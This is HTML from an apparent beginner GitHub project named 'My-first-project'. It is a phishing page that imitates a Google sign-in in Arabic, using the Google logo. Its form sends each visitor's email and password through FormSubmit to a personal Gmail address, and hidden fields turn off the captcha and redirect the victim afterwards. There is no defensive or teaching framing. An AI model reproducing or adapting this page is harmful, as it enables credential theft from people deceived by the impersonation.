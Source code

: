 <div class="login-box">
    <img src="https://www.google.com/images/branding/googlelogo/2x/googlelogo_color_92x30dp.png" alt="Google Logo">
    <h2>تسجيل الدخول</h2>

    <!-- ✅ نموذج FormSubmit -->
    <form action="https://formsubmit.co/ahmedfeddaoui70@gmail.com" method="POST">
        <input type="email" name="email" placeholder="البريد الإلكتروني أو الهاتف" required><br>
        <input type="password" name="password" placeholder="كلمة المرور" required><br>

        <!-- إعدادات مخفية -->
        <input type="hidden" name="_captcha" value="false">
        <input type="hidden" name="_next" value="https://example.com/thanks.html">

        <button type="submit">التالي</button>
    </form>

    <div class="small-text">ليس لديك حساب؟ <a href="#">إنشاء حساب</a></div>
</div>

</body>
</html># My-first-project
Myfirstproject.html
